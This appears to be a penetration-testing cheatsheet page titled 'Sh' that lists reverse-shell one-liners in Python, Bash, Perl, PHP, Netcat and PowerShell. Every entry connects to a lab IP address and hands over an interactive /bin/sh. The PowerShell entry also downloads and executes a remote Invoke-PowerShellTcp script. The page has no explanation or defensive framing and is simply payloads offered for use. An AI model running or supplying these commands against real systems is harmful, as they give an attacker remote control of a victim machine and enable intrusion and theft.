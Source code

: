 ```yaml
---
layout: cheatsheet
title: "Sh"
---
```


Python:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>
</div>

Bash:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 </code>
  <code>bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1" </code>
</div>


Perl:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' </code>
</div>

PHP:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
</div>

Netcat:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>nc -e /bin/sh 10.0.0.1 1234 </code>
  <code>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.218 1234 >/tmp/f </code>
</div>

Powershell:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>powershell -c "iex(new-object net.webclient).downloadstring(\"http://192.168.45.235:1337/Invoke-PowerShellTcp.ps1\")" </code>
</div>
